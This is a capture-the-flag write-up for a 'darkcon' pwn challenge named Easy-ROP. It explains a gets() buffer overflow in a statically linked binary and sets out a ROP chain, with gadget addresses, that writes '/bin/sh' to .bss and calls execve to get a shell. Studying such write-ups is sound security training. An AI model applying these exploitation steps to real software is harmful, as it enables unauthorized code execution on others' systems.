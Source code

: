 # Easy-ROP

### This is a simple ROP exploit.

```
file easy-rop
easy-rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=78fc05fd7938307a19ef9a1d0514d19126d62727, for GNU/Linux 3.2.0, not stripped
```

So the given binary is statically linked. 

The security protections for this binary are:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see NX is enabled. The libc is statically linked and some of the libc functions present in the binary will have the canary present in it, so the checksec shows that the canary is present for the given binary. Decompiling the given binary we can see that :

```

void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}

```
The  ```__stack_chk_fail``` function is not present concluding there is no canary present in the main function.

By decompiling the main it just uses ```gets()``` function so we have a buffer overflow vulnerability. So we can change the **return address** to jump anywhere we want in the binary.


As the given binary is statically linked we will have so many ROPGadgets present in it. we can utilize these ROPgadgets to form a shellcode using ROP.

### So the attack vector is:

- Just try to write ```/bin/sh``` in any writable section (preferably in .bss)
- Then try to use syscall and execute the execve("/bin/sh") to get the shell

I used these ROP gadgets:

```
0x0000000000481e65 : mov qword ptr [rsi], rax ; ret
0x00000000004175eb : pop rax ; ret
0x000000000040191a : pop rdi ; ret
0x000000000040f4be : pop rsi ; ret
0x000000000040181f : pop rdx ; ret
0x00000000004012d3 : syscall
```

- pop rax  ** "/bin/sh" **
- pop rsi  ** (address of bss) **
- mov qword ptr [rsi], rax ** so the starting address of bss contains the /bin/sh **
- pop rax,0x3b ** execve syscall **
- pop rdi ** bss (pointer to "/bin/sh") **
- pop rsi ** 0 **
- pop rdx ** 0 **
- syscall

Here is the full [Exploit](./exploit.py) 

Enjoy the shell
